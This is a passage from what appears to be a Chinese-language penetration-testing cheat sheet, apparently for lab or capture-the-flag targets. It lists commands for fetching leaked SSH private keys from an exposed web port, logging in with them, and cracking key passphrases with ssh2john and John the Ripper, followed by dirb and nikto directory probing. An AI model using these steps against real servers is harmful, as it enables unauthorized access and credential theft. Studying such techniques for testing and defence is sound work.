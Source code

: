 
    # ***************私钥泄露******************
    # 1. 在浏览器输入以下：(公钥不用下载)
    192.168.1.1:31337/.ssh/id_rsa
    192.168.1.1:31337/.ssh/authorized_keys
    192.168.1.1:31337/.ssh/id_rsa.pub

    # 2. 修改私钥权限
    chmod 600 id_rsa

    # 3. 使用私钥登录服务器, 从 authorized_keys 查看用户登录名
    ssh -i id_rsa user@192.168.1.1

    # 4. 如果提示需要密码，则需要解密 ssh 密钥信息
    # 4.1 使用 ssh2john 将 id_rsa 密钥信息转换为 john 可以识别的信息
    ssh2john id_rsa > rsacrack
    # 4.2 利用字典解密 isacrack 信息
    zcat /usr/share/wordlists/rockyou.txt.gz|john --pipe --rules rsacrack
    ```

* 登录命令

    ```shell
    ssh user@IP
    ssh -p port user@IP
    ```

### 3.2 http 服务的 80 端口

* 首先考虑如下：

    1. 通过浏览器浏览访问对应的 http 服务（邮箱可能含有用户名）如：`http://ip:port`
    2. 使用探测工具对 http 的目录进行探测。如：

    ```shell
    # 1. dirb
    dirb http://ip:port/
    # 2. nikto
    nikto -host 192.168.1.1:8080
    ```
